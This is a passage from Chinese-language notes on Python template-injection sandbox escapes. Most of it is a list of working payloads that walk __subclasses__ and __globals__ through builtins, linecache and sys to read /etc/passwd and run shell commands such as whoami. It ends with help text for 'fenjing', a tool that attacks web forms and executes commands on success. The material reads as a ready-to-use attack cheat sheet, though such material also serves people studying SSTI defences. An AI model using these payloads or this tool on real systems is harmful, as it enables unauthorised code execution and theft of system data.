   - builtins利用

    ```
    [].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__[&#39;__builtins__&#39;][&#39;file&#39;](&#39;/etc/passwd&#39;).read()
    
    
    
    [].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).popen(&#34;ls&#34;).read()
    ```

  - linecache利用

    ```
    [].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__[&#39;linecache&#39;].__dict__[&#39;os&#39;].system(&#39;whoami’)
    
    [].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__[&#39;linecache&#39;].__dict__[&#39;sys&#39;].modules[&#39;os&#39;].system(&#39;whoami’)
    
    [].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__[&#39;linecache&#39;].__dict__[&#39;__builtins__&#39;][&#39;__import__&#39;](&#39;os&#39;).system(&#39;ls’)
    ```

  - sys利用

    ```
    [].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__[&#39;sys&#39;].modules[&#39;os&#39;].system(&#39;whoami&#39;)
    ```

## fenjing

```
$ python -m fenjing --help
Usage: python -m fenjing [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  crack  攻击指定的表单
  scan   扫描指定的网站
$ python -m fenjing crack --help
Usage: python -m fenjing crack [OPTIONS]

  攻击指定的表单

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.
$ python -m fenjing scan --help
Usage: python -m fenjing scan [OPTIONS]

  扫描指定的网站

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
```